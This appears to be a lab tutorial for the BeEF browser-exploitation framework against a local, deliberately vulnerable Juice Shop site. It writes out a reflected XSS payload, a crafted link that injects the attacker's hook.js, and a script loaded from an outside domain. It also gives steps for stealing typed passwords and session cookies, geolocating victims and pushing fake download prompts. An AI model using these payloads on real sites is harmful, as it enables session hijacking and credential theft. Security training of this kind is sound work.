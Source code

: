 # BeEF Tutorial

This tutorial assumes you followed the [installation instructions](README.md)
and that the BeEF application is up and running, and can be reached at
[http://beef.local:3000](http://beef.local:3000), and that Juice Shop is up and
running, and can be reached at
[http://vulnerable.local:3500](http://vulnerable.local:3500).

Let's see what you can do with BeEF: This tutorial will show you, as an
attacker, what you can do to a victim, by exploiting a Cross-Site Scripting
vulnerability.

## Attacker's point of view (1)

First, let's log onto BeEF's administrative panel by going to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel) Enter here
the login credentials (the default username / password is `beefadmin` /
`difficultpassword`).

This is the view point of the attacker. At the left hand there's an overview
with Hooked Browsers: clients that can be controlled by the BeEF framework. When
starting up, this will be empty.

## Victim's point of view

For the victim's point of view, open a _new browser window_. Let's now surf to a
vulnerable site which contains a Cross-Site Scripting vulnerability. Go to
[http://vulnerable.local:3500](http://vulnerable.local:3500) and click on the
search icon in the top right. This will open up a search box. Search for
"banana". This will return all results having "banana" in their description.

Now, an attacker discovered that the site contains a Cross-Site Scripting
vulnerability. Search for the term [<img src=a
onerror=alert(1)>](<http://vulnerable.local:3500/#/search?q=%3Cimg%20src%3Da%20onerror%3Dalert(1)%3E>).

This will execute a reflected Cross-Site Scripting payload - an alert box will
pop up, showing a 1.

What's the damage, you'd think? Just an alert box, right? Well, this tutorial
will show you how you much damage you can do with 'just' a Cross-Site Scripting
exploit...

Say that the attacker crafted a link pointing to the vulnerable site, which
would execute a bit more realistic payload. It is up to the attacker to entice
victims to click on that link, for example by social engineering, using link
shorteners and messaging the link.

Click on the following link, prepared by the attacker:
[http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple](<http://vulnerable.local:3500/#/search?q=%3Cimg%20width=0%20height=0%20%20src%3Da%20onerror%3Deval(%60a%3Ddocument.createElement('script');a.type%3D'text%2Fjavascript';a.src%3D'http:%2F%2Fbeef.local:3000%2Fhook.js';document.body.appendChild(a);%60)%3Eapple>)

Nothing weird happens, right? You don't see results, but that's all. Say now
that the victim wants to log on to the site, and clicks on the account link top
right. Fill in the account details of an existing account: `admin@juice-sh.op` /
`admin123`.

The victim is logged in, and everything looks okay.

However, the payload contained a hook to the attacker's BeEF instance:
`<script src="http://beef.local:3000/hook.js">`. What does this do? Well, this
ensures that the web site _is hooked_ onto the BeEF application.

## Attacker's point of view (2)

Switching back to
[http://beef.local:3000/ui/panel](http://beef.local:3000/ui/panel), at the left
hand you can see that a victim is online: a browser is currently hooked. From
the moment the victim clicked on the link, the attacker controlled all of the
web content in the [http://vulnerable.local:3000](http://vulnerable.local:3000)
tab. Click in the left hand on the hooked browser in the `vulnerable.local`
domain.

On the active tab _Details_ you can see all kinds of information about the
victim: The operating system for example, but also screen resolution for
example, settings, and enabled browser plugins.

Select the tab _Logs_. Here you can see what the victim is doing during this
session. **All entered text as well as mouse and keyboard commands are
intercepted**. If you look carefully you can read the username, and password
that the user entered.

**The attacker successfully stole the username and password**

### Grabbing the session cookie

Select the _Commands_ tab. This is where the majority of actions will be
performed. In the Module Tree, search for _cookie_. Select _Get Cookie_. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

In the _Module Results History_ section, an entry appears, with the selected
command. If you click on the command, which will have label _command 1_, you
will see the results at the right hand side. This is the session cookie of the
logged in user: all that the attacker needs to take over the victim's session.

**The attacker successfully stole the session cookie**

### Fingerprint the victim

Let's fingerprint the browser, so the victim can be followed.

Search for _fingerprint_, and click on the _Fingerprint Browser_ module. Now, in
the rightmost side of the screen you can click on _Execute_. This will execute
the selected command.

Search for _geolocation_ and select the _Get Geolocation (Third Party)_ module.
In the rightmost side, select for example the second entry,
`https://ip.nf/me.json` API. you now click on _Execute_, the attacker will find
out where the victim, visiting
[http://vulnerable.local:3500](http://vulnerable.local:3500), will be located.

**The attacker successfully fingerprinted and located the victim**

### Trick the victim

Next the attacker can trick the victim into divulging secrets. Search for
_Pretty Theft_ and execute that module. The victim will now see a popup, asking
to enter a username and password. This is how credentials can be stolen.

For another example, search for _Fake_ and select the _Fake Flash Update_
module. This will send a convincingly looking update notification. As soon as
the victim clicks **anywhere**, a file will be downloaded. The payload itself
can be modified in the web interface.

For another example, search for _Notification_ and select the _Fake Notification
Bar (Chrome)_ module. This will send a notification to the victim. If the victim
clicks on the notification, it will download a binary file. Note that this step
will fail (the binary file isn't present on our Attacker server), but this will
demonstrate how easy it is to trick victims.

### Fun and games

Just for fun, play a sound on the victim's computer. Search for _sound_ and
execute the _Play Sound_ module.

Is the sound on? Then we can do better... Search for _raw_ and select the _Raw
JavaScript_ module. Paste the following code in the JavaScript Code window:

```
var b = document.createElement('script');
b.type = 'text/javascript';
b.src = 'http://extract.pw/shake.js';
document.body.appendChild(b);
```

Click on _Execute_.

**The attacker successfully executed arbitrary JavaScript**

### GOD exploit

For the ultimate exploit, search for _rick_ and select the _Redirect Browser
(Rickroll)_ module. Execute this module, and the victim will be shown the
infamous Rick Astley video.

Of course these are all benign examples, but imagine what a skilled attacker can
do, having such control over the victim's browser and ultimately security of its
operating system.
